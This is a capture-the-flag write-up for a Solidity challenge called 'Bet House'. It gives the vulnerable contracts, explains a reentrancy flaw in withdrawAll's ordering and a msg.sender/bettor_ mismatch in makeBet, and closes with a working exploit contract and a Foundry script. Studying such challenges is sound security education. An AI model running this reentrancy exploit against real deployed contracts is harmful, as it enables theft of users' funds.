

## Challenge
### Description

Welcome to the Bet House.
You start with 5 Pool Deposit Tokens (PDT).
Could you master the art of strategic gambling and become a bettor?
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC20} from "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import {Ownable} from "openzeppelin-contracts-08/access/Ownable.sol";
import {ReentrancyGuard} from "openzeppelin-contracts-08/security/ReentrancyGuard.sol";

contract BetHouse {
    address public pool;
    uint256 private constant BET_PRICE = 20;
    mapping(address => bool) private bettors;

    error InsufficientFunds();
    error FundsNotLocked();

    constructor(address pool_) {
        pool = pool_;
    }

    function makeBet(address bettor_) external {
        if (Pool(pool).balanceOf(msg.sender) < BET_PRICE) {
            revert InsufficientFunds();
        }
        if (!Pool(pool).depositsLocked(msg.sender)) revert FundsNotLocked();
        bettors[bettor_] = true;
    }

    function isBettor(address bettor_) external view returns (bool) {
        return bettors[bettor_];
    }
}

contract Pool is ReentrancyGuard {
    address public wrappedToken;
    address public depositToken;

    mapping(address => uint256) private depositedEther;
    mapping(address => uint256) private depositedPDT;
    mapping(address => bool) private depositsLockedMap;
    bool private alreadyDeposited;

    error DepositsAreLocked();
    error InvalidDeposit();
    error AlreadyDeposited();
    error InsufficientAllowance();

    constructor(address wrappedToken_, address depositToken_) {
        wrappedToken = wrappedToken_;
        depositToken = depositToken_;
    }

    /**
     * @dev Provide 10 wrapped tokens for 0.001 ether deposited and
     *      1 wrapped token for 1 pool deposit token (PDT) deposited.
     *  The ether can only be deposited once per account.
     */
    function deposit(uint256 value_) external payable {
        // check if deposits are locked
        if (depositsLockedMap[msg.sender]) revert DepositsAreLocked();

        uint256 _valueToMint;
        // check to deposit ether
        if (msg.value == 0.001 ether) {
            if (alreadyDeposited) revert AlreadyDeposited();
            depositedEther[msg.sender] += msg.value;
            alreadyDeposited = true;
            _valueToMint += 10;
        }
        // check to deposit PDT
        if (value_ > 0) {
            if (PoolToken(depositToken).allowance(msg.sender, address(this)) < value_) revert InsufficientAllowance();
            depositedPDT[msg.sender] += value_;
            PoolToken(depositToken).transferFrom(msg.sender, address(this), value_);
            _valueToMint += value_;
        }
        if (_valueToMint == 0) revert InvalidDeposit();
        PoolToken(wrappedToken).mint(msg.sender, _valueToMint);
    }

    function withdrawAll() external nonReentrant {
        // send the PDT to the user
        uint256 _depositedValue = depositedPDT[msg.sender];
        if (_depositedValue > 0) {
            depositedPDT[msg.sender] = 0;
            PoolToken(depositToken).transfer(msg.sender, _depositedValue);
        }

        // send the ether to the user
        _depositedValue = depositedEther[msg.sender];
        if (_depositedValue > 0) {
            depositedEther[msg.sender] = 0;
            payable(msg.sender).call{value: _depositedValue}("");
        }

        PoolToken(wrappedToken).burn(msg.sender, balanceOf(msg.sender));
    }

    function lockDeposits() external {
        depositsLockedMap[msg.sender] = true;
    }

    function depositsLocked(address account_) external view returns (bool) {
        return depositsLockedMap[account_];
    }

    function balanceOf(address account_) public view returns (uint256) {
        return PoolToken(wrappedToken).balanceOf(account_);
    }
}

contract PoolToken is ERC20, Ownable {
    constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) Ownable() {}

    function mint(address account, uint256 amount) external onlyOwner {
        _mint(account, amount);
    }

    function burn(address account, uint256 amount) external onlyOwner {
        _burn(account, amount);
    }
}
```
## Background

---

This challenge has two kinds of tokens. `depositToken` is the `Pool Deposit Token` (PDT) the player holds at the start, and `wrappedToken` is the internal balance token newly minted when depositing into the `Pool`.
The exchange rule in `deposit()` is simple. Depositing `0.001 ether` gives you 10 `wrappedToken`, and depositing 1 PDT gives you 1 `wrappedToken`. The player starts with only 5 PDT, so even combining 5 PDT with the ether deposit normally yields only $10+5=15$ `wrappedToken`.

---

`withdrawAll()` has `nonReentrant`, but it uses `call` to refund ether inside the function. If the recipient is a contract, its `receive()` runs at this point.
The `call` that sends ether runs before `wrappedToken` is burned, so the existing `wrappedToken` balance is still there while the callback runs. `nonReentrant` only blocks reentering the same `withdrawAll()`; it does not block calls to `deposit()`, `lockDeposits()`, or `makeBet()`.
## Challenge code analysis

---

First, the bet condition:
```solidity
function makeBet(address bettor_) external {
    if (Pool(pool).balanceOf(msg.sender) < BET_PRICE) {
        revert InsufficientFunds();
    }
    if (!Pool(pool).depositsLocked(msg.sender)) revert FundsNotLocked();
    bettors[bettor_] = true;
}
```
`makeBet()` registers `bettor_`, but it checks the conditions against `msg.sender`, not `bettor_`. So the player does not have to satisfy the conditions directly. If the attack contract, as `msg.sender`, has at least 20 `wrappedToken` and `depositsLocked == true`, it can pass the player's address as `bettor_` to register the player as a bettor.

---

Next, the exchange ratio in `deposit()`:
```solidity
if (msg.value == 0.001 ether) {
    if (alreadyDeposited) revert AlreadyDeposited();
    depositedEther[msg.sender] += msg.value;
    alreadyDeposited = true;
    _valueToMint += 10;
}
if (value_ > 0) {
    if (PoolToken(depositToken).allowance(msg.sender, address(this)) < value_) revert InsufficientAllowance();
    depositedPDT[msg.sender] += value_;
    PoolToken(depositToken).transferFrom(msg.sender, address(this), value_);
    _valueToMint += value_;
}
```
A single `deposit()` call accepts both ETH and PDT. If the attack contract puts in `0.001 ether` and 5 PDT, it gets 15 `wrappedToken`.
But the goal is 20. With only 5 PDT to start with, the normal flow has no way to get 5 more, so I used the ordering in `withdrawAll()`.

---

Finally, the ordering in `withdrawAll()`:
```solidity
function withdrawAll() external nonReentrant {
    uint256 _depositedValue = depositedPDT[msg.sender];
    if (_depositedValue > 0) {
        depositedPDT[msg.sender] = 0;
        PoolToken(depositToken).transfer(msg.sender, _depositedValue);
    }

    _depositedValue = depositedEther[msg.sender];
    if (_depositedValue > 0) {
        depositedEther[msg.sender] = 0;
        payable(msg.sender).call{value: _depositedValue}("");
    }

    PoolToken(wrappedToken).burn(msg.sender, balanceOf(msg.sender));
}
```
`withdrawAll()` first refunds PDT. Then it refunds ETH via `call`, and burns `wrappedToken` last.
At the moment the attack contract's `receive()` runs, it has already received the 5 PDT back, and the existing 15 `wrappedToken` are not yet burned. If you re-deposit the returned 5 PDT with `deposit(5)` at this point, 5 more `wrappedToken` are minted, bringing the total to 20.
Then calling `lockDeposits()` within the same callback makes the attack contract satisfy the bet condition. Finally, calling `makeBet(player)` passes the condition check against the attack contract while registering the player as the target.
## Solution
Send the player's 5 PDT to the attack contract, and call `deposit(5)` along with `0.001 ether`. At this point the attack contract holds 15 `wrappedToken`.
Immediately calling `withdrawAll()` makes `Pool` refund the 5 PDT first and run the attack contract's `receive()` during the ETH refund. Since the burn has not happened yet, re-depositing the 5 PDT inside `receive()` brings the balance to 20. In that state, lock deposits and call `makeBet(player)`.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface IBetHouse {
    function pool() external view returns (address);
    function makeBet(address bettor_) external;
    function isBettor(address bettor_) external view returns (bool);
}

interface IPool {
    function deposit(uint256 value_) external payable;
    function withdrawAll() external;
    function lockDeposits() external;
    function depositToken() external view returns (address);
}

interface IERC20Like {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transfer(address to, uint256 amount) external returns (bool);
}

contract BetHouseExploit {
    uint256 private constant PDT_AMOUNT = 5;

    IBetHouse private immutable betHouse;
    IPool private immutable pool;
    IERC20Like private immutable depositToken;
    address private immutable player;

    constructor(address betHouse_, address player_) {
        betHouse = IBetHouse(betHouse_);
        pool = IPool(betHouse.pool());
        depositToken = IERC20Like(pool.depositToken());
        player = player_;
    }

    function attack() external payable {
        require(msg.value == 0.001 ether, "send 0.001 ether");
        require(depositToken.balanceOf(address(this)) >= PDT_AMOUNT, "missing PDT");

        depositToken.approve(address(pool), PDT_AMOUNT);
        pool.deposit{value: msg.value}(PDT_AMOUNT);
        pool.withdrawAll();
    }

    receive() external payable {
        require(msg.sender == address(pool), "only pool");

        depositToken.approve(address(pool), PDT_AMOUNT);
        pool.deposit(PDT_AMOUNT);
        pool.lockDeposits();
        betHouse.makeBet(player);

        (bool ok,) = player.call{value: address(this).balance}("");
        require(ok, "refund failed");
    }
}

contract Sol34 is Script {
    uint256 private constant PDT_AMOUNT = 5;

    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address player = vm.addr(privateKey);
        IBetHouse betHouse = IBetHouse(vm.envAddress("BET_HOUSE_INSTANCE"));
        IPool pool = IPool(betHouse.pool());
        IERC20Like depositToken = IERC20Like(pool.depositToken());

        vm.startBroadcast(privateKey);

        BetHouseExploit exploit = new BetHouseExploit(address(betHouse), player);
        require(depositToken.transfer(address(exploit), PDT_AMOUNT), "PDT transfer failed");
        exploit.attack{value: 0.001 ether}();
        require(betHouse.isBettor(player), "bet failed");

        vm.stopBroadcast();
    }
}
```

